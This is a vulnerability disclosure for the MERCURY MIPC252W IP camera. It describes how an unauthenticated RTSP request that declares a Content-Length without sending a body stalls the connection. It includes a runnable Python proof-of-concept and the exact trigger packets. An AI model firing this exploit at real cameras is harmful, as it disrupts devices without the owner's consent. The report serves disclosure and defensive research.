

# Information

**Vendor of the products:** MERCURY

**Vendor's website:** https://www.mercurycom.com.cn/

**Reported by:** YanKang

**Affected products:** MIPC252W

**Affected firmware version:** 1.0.5 Build 230306 Rel.79931n

**Firmware download address:** https://service.mercurycom.com.cn/download-2777.html

------

# Overview

A robustness deficiency exists in the RTSP service of the MERCURY MIPC252W IP camera in its handling of requests that carry a `Content-Length` header without an accompanying message body. According to RFC 2326, methods such as `DESCRIBE`, `SETUP`, `PLAY`, `TEARDOWN`, and `OPTIONS` do not define a request body; a request using any of these methods that includes a `Content-Length` header is therefore semantically malformed, and a conformant server should reject it immediately with `400 Bad Request`. However, the affected device's RTSP parser applies no such validation at the method level (CWE-400 / CWE-390).

Instead of rejecting the malformed request, the service enters a persistent body-waiting state on the affected TCP connection, stalling while it waits for body bytes that will never arrive. Once in this state, all subsequent data received on the same connection — including any further RTSP requests — is silently consumed and treated as body content, rendering the connection entirely unusable for its intended purpose. The device does not recover the connection proactively; it waits until an internal timeout elapses (approximately 20 seconds) before closing the TCP connection, during which the socket resource is held open unnecessarily (CWE-404). This behavior can be triggered without any authentication.

The impact is confined to the individual TCP connection on which the malformed request is sent. Other concurrent client connections and active video streaming sessions are not affected.

------

# POC

```python
import socket
import time

def recv_rtsp_response(sock):
    """循环recv直到收到RTSP响应，最多等待30秒"""
    response_data = b""
    sock.settimeout(30)
    try:
        while True:
            res_data = sock.recv(4096)
            if b"RTSP/1.0" in res_data:
                response_data += res_data
                break
            if not res_data:
                break
            response_data += res_data
    except socket.timeout:
        pass  # 超时：有部分数据就返回，没有就返回空
    return response_data

def do_inline_cr_check(camera_ip, camera_port, label=""):
    cr_sock = None
    try:
        cr_sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        cr_sock.settimeout(5)
        cr_sock.connect((camera_ip, camera_port))
        options_req = (
            f"OPTIONS rtsp://{camera_ip}:{camera_port}/tenda RTSP/1.0\r\n"
            f"CSeq: 1\r\n"
            f"User-Agent: InlineCRCheck/1.0\r\n\r\n"
        )
        cr_sock.send(options_req.encode())
        response_data = b""
        while True:
            chunk = cr_sock.recv(4096)
            if b"RTSP/1.0" in chunk:
                response_data += chunk
                break
            if not chunk:
                break
            response_data += chunk
        if not response_data:
            print(f"[C-R Check][{label}] ❌ OPTIONS无响应，设备异常")
            return False
        first_line = response_data.decode("ascii", errors="replace").split("\r\n")[0]
        print(f"[C-R Check][{label}] OPTIONS响应: {first_line}")
        if "200" in first_line:
            print(f"[C-R Check][{label}] ✅ 设备正常")
            return True
        else:
            print(f"[C-R Check][{label}] ❌ 响应码异常，设备可能出错")
            return False
    except socket.timeout:
        print(f"[C-R Check][{label}] ❌ 超时，设备异常")
        return False
    except ConnectionRefusedError:
        print(f"[C-R Check][{label}] ❌ 连接被拒绝，设备异常")
        return False
    except Exception as e:
        print(f"[C-R Check][{label}] ❌ 检查失败: {e}")
        return False
    finally:
        if cr_sock:
            try: cr_sock.close()
            except: pass


CAMERA_IP = "192.168.0.151"
RTSP_PORT = 554

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((CAMERA_IP, RTSP_PORT))

# 1. OPTIONS
options_req = (
    f"OPTIONS rtsp://192.168.0.151:554/tenda RTSP/1.0\r\n"
    f"CSeq: 2\r\n"
    f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n\r\n"
)
s.send(options_req.encode())
time.sleep(1)
options_res = recv_rtsp_response(s)
print("OPTIONS Response:\n", options_res.decode(errors='ignore'))

# 2. DESCRIBE（无认证，tenda只需一次）
describe_req = (
    f"DESCRIBE rtsp://192.168.0.151:554/tenda RTSP/1.0\r\n"
    f"CSeq: 3\r\n"
    f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
    f"Accept: application/sdp\r\n"
    "Content-Length: 1000\r\n\r\n"
)
s.send(describe_req.encode())
describe_res_bytes = recv_rtsp_response(s)
describe_res = describe_res_bytes.decode(errors='ignore')
print("DESCRIBE Response:\n", describe_res)
do_inline_cr_check(CAMERA_IP, RTSP_PORT, label="after DESCRIBE")
time.sleep(1)

# # 新增请求模版
# new_req = (
#     f"ANNOUNCE rtsp://192.168.0.151:554/tenda RTSP/1.0\r\n"
#     f"CSeq: 8\r\n"
#     f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
#     "Content-Type: text/parameters\r\n"
#     "Content-Length: 10\r\n\r\n"
# )
# s.send(new_req.encode())
# new_res_bytes = recv_rtsp_response(s)
# new_res = new_res_bytes.decode(errors='ignore')
# print("NEW Response:\n", new_res)
# do_inline_cr_check(CAMERA_IP, RTSP_PORT, label="after 新的请求")
# time.sleep(1)


# 3. SETUP track1（无认证）
setup1_req = (
    f"SETUP rtsp://192.168.0.151/ch=1?subtype=0/trackID=1 RTSP/1.0\r\n"
    f"CSeq: 4\r\n"
    f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
    f"Transport: RTP/AVP/TCP;unicast;interleaved=0-1\r\n\r\n"
)
s.send(setup1_req.encode())
setup1_res_bytes = recv_rtsp_response(s)
setup1_res = setup1_res_bytes.decode(errors='ignore')
print("SETUP_1 Response:\n", setup1_res)
do_inline_cr_check(CAMERA_IP, RTSP_PORT, label="after SETUP_1")
time.sleep(1)

# 从SETUP track1响应中提取Session
session_id = None
for line in setup1_res.split('\r\n'):
    if line.startswith('Session:'):
        session_id = line.split(':')[1].split(';')[0].strip()
        break
if not session_id:
    print("Failed to get session ID, using default")
    session_id = "B61099A3"
print(f"Session ID: {session_id}")

bug_s = 'a'*512
# 4. SETUP track2（带Session，无认证）
setup2_req = (
    f"SETUP rtsp://192.168.0.151/ch=1?subtype=0/trackID=2 RTSP/1.0\r\n"
    f"CSeq: 5\r\n"
    f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
    f"Transport: RTP/AVP/TCP;unicast;interleaved=2-3\r\n"
    f"Session: {session_id}\r\n\r\n"
)
s.send(setup2_req.encode())
setup2_res_bytes = recv_rtsp_response(s)
setup2_res = setup2_res_bytes.decode(errors='ignore')
print("SETUP_2 Response:\n", setup2_res)
do_inline_cr_check(CAMERA_IP, RTSP_PORT, label="after SETUP_2")
time.sleep(1)


# 5. PLAY（带Session，无认证）
play_req = (
    f"PLAY rtsp://192.168.0.151/ch=1?subtype=0/ RTSP/1.0\r\n"
    f"CSeq: 6\r\n"
    f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
    f"Session: {session_id}\r\n"
    f"Range: npt=0.000-\r\n\r\n"
)
s.send(play_req.encode())
play_res_bytes = recv_rtsp_response(s)
play_res = play_res_bytes.decode(errors='ignore')
#print("PLAY Response:\n", play_res)
do_inline_cr_check(CAMERA_IP, RTSP_PORT, label="after PLAY")
time.sleep(1)

# 6. TEARDOWN（带Session，无认证）
teardown_req = (
    f"TEARDOWN rtsp://192.168.0.151/ch=1?subtype=0/ RTSP/1.0\r\n"
    f"CSeq: 7\r\n"
    f"User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)\r\n"
    f"Session: {session_id}\r\n\r\n"
)
s.send(teardown_req.encode())
time.sleep(0.2)
s.close()
do_inline_cr_check(CAMERA_IP, RTSP_PORT, label="after TEARDOWN")
```


# Attack Demo

The vulnerability can be triggered by sending any RTSP request that includes a `Content-Length` header but omits the corresponding message body, while keeping the TCP connection open. The following example uses the `DESCRIBE` method for illustration, but the same behavior has been confirmed on other methods including `SETUP`, `PLAY`, `TEARDOWN`, and `OPTIONS`.

Upon receiving such a request, the device does not validate that the declared body length matches the actual data present. Instead, the RTSP parser stalls waiting for the missing body bytes. Any RTSP requests subsequently written to the same connection are silently absorbed as body data rather than being parsed and dispatched as new requests, making the connection permanently non-functional until the device-side timeout expires and the TCP connection is torn down.





The following packet exchange illustrates the triggering condition using `DESCRIBE` as an example.

**Malformed request that triggers the vulnerability:**

```
OPTIONS rtsp://{IP}:554/stream1 RTSP/1.0
CSeq: 2
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)

DESCRIBE rtsp://{IP}:554/stream1 RTSP/1.0
CSeq: 3
User-Agent: LibVLC/3.0.20 (LIVE555 Streaming Media v2016.11.28)
Accept: application/sdp
Content-Length: 1000

(No body is sent; the connection is held open)
```

**Observed device behavior:**

```
RTSP/1.0 200 OK          <- OPTIONS responded to normally
CSeq: 2
...

(No response to the DESCRIBE request. The device silently consumes all
subsequent data on this connection as body bytes. After approximately
20 seconds the device sends FIN/RST and closes the TCP connection.)
```

**Notes:**

- `{IP}` should be replaced with the target device IP address.
- A `Content-Length` value in the range 100–1000 reliably triggers the issue. Values such as 999999 cause the device to respond immediately with `401` and continue normal processing; they do not trigger the waiting state.
- No authentication credentials are required to trigger the vulnerability.
- The effect is limited to the single TCP connection on which the malformed request is sent; other connections and active streaming sessions are unaffected.
- The device automatically closes the affected connection after the timeout (~20 seconds) and requires no reboot to recover.


------

# Supplement

This vulnerability causes the RTSP parser on the affected connection to enter an indefinite body-waiting state whenever any RTSP request declares a `Content-Length` without providing the corresponding body data. All data subsequently written to that connection is silently consumed as body content rather than processed as new RTSP requests, making the connection permanently unusable until the device-side timeout expires. A minor TCP resource leak is present during this window (CWE-404).

The issue requires no authentication to trigger and affects all tested RTSP methods, including `DESCRIBE`, `SETUP`, `PLAY`, `TEARDOWN`, and `OPTIONS`. The impact is confined to the affected TCP connection; no other clients or media tracks are disrupted.

